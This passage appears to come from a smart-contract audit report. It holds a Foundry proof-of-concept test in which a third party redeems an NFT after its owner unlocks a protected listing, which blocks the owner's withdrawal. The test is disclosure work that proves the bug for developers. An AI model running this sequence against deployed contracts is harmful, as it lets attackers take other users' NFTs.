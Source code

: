 
Test:
```solidity
    function test_redeemBeforeOner(uint _tokenId, uint96 _tokensTaken) public {

        _assumeValidTokenId(_tokenId);
        vm.assume(_tokensTaken >= 0.1 ether);
        vm.assume(_tokensTaken <= 1 ether - protectedListings.KEEPER_REWARD());

        // Set the owner to one of our test users (Alice)
        address payable _owner = users[0];

        // Mint our token to the _owner and approve the {Listings} contract to use it
        erc721a.mint(_owner, _tokenId);

        // Create our listing
        vm.startPrank(_owner);
        erc721a.approve(address(protectedListings), _tokenId);
        _createProtectedListing({
            _listing: IProtectedListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: IProtectedListings.ProtectedListing({
                    owner: _owner,
                    tokenTaken: _tokensTaken,
                    checkpoint: 0
                })
            })
        });

        // Approve the ERC20 token to be used by the listings contract to unlock the listings
        locker.collectionToken(address(erc721a)).approve(
            address(protectedListings),
            _tokensTaken
        );

        protectedListings.unlockProtectedListing(
            address(erc721a),
            _tokenId,
            false
        );

        vm.stopPrank();

        // Approve the ERC20 token to be used by the listings contract to unlock the listings
        locker.collectionToken(address(erc721a)).approve(
            address(locker),
            1000000000000 ether
        );
        //@audit another user can redeem before owner.
        uint[] memory redeemTokenIds = new uint[](1);
        redeemTokenIds[0] = _tokenId;
        locker.redeem(address(erc721a), redeemTokenIds);

        vm.prank(_owner);
        // Owner cant withdraw anymore since they have been redeemed
        protectedListings.withdrawProtectedListing(address(erc721a), _tokenId);
    }
```
